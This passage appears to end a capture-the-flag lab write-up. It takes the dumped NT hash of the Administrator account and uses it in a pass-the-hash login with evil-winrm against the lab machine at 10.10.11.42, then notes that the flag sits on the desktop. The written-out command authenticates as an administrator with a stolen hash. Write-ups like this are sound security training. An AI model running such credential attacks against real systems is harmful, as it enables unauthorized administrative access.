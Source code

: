 ![](../Assets/Screenshot%202025-06-27%20at%206.32.09%20PM.png)

we get a lot of hashes but we can just take the nt hash for administrator `3dc553ce4b9fd20bd016e098d2d2fd2e` and then hash the pass thru evil-winrm

```
evil-winrm -i 10.10.11.42 -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```
you can find the flag in the desktop folder

yippee we have pwn the machine!